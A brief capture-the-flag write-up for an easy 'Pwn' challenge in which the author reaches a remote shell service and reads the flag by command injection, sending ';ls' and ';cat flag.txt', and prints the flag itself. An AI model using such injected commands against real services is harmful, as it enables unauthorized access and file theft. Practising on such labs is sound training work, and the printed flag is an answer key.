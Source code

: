 # EZ CTF

## Pwn

### Mario bros!

**Difficulty:** Easy

**Statement:** Read the flag!  

***

For this challenge, you need to connect to the remote server on port 7777.

Once connected, we are on a bash shell with the return command `Are you root?`

Sending a single value or command closes the shell and the connection to the server.

So I'm just trying to add a `;` to inject a command: `;ls`

```
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
```

I just have to read the content of the file **flag.txt**: `;cat flag.txt`

```
EZ-CTF{UNSECUR3_B4SH}
```

Flag: EZ-CTF{UNSECUR3_B4SH}
